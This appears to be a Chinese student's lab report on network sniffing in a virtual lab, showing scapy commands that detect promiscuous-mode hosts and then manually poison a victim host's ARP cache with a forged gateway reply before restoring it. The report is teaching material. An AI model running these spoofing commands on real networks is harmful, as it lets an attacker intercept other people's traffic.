 # 实验四 网络嗅探

## 实验环境配置情况

1. 攻击者主机(由于是kali，所以已经自带了scapy)
   * 08:00:27:d3:e9:5a / eth0
   * 172.16.111.114
2. 受害者主机
   * 08:00:27:c8:03:61 / enp0s3
   * 172.16.111.128
3. 网关
   * 08:00:27:b8:da:76 / enp0s9
   * 172.16.111.1

## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
```

![unpromisc](img/unpromisc.png)

```bash
# 在攻击者主机上开启 scapy
sudo scapy
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.128")
```

![scapy1](img/scapy1.png)

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on
# 这个时候果然多出来了promisc选项
```

![promisc](img/promisc.png)

```bash
ip link show enp0s3
pkt = promiscping("172.16.111.128")
# 重新看一遍区别
```

![scapy2](img/scapy2.png)

* 这个时候我们，能发现区别：从`remaining 1 packets`，变成了`receive 1 packets,got 1 answers`

* 通过这一点，我们可能发现，异常终端，即打开`混杂模式`的终端

```bash
# 记得关闭混杂模式
sudo ip link set enp0s3 promisc off
```

![closepromisc](img/closepromisc.png)

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

1. 获取当前局域网的网关 MAC 地址
 
```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![scapy3](img/scapy3.png)

```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![scapy4](img/scapy4.png) 我们可以看到和之前直接`ip a`看到的网关相同：![gateway](img/gateway.png)

2. 伪造网关的arp包（刚刚得到了它的arp地址）

``` bash
# 继续来做
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.128
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头（这个很关键，我看了师哥的才知道！）
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.128", hwdst="08:00:27:d3:e9:5a")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![scapy5](img/scapy5.png)

* 结果如下（后面三条有改变）： ![newarp](img/newarp.png)

```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:b8:da:76", pdst="172.16.111.128", hwdst="08:00:27:c8:03:61")
sendp(restorepkt1, count=100, inter=0.2)
```

![scapy6](img/scapy6.png)

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

* 查看一手结果，果然还原了：
![scapy7](img/scapy7.png)

## 参考资料

* [网安课件](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html)
* [师哥的实验四](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)

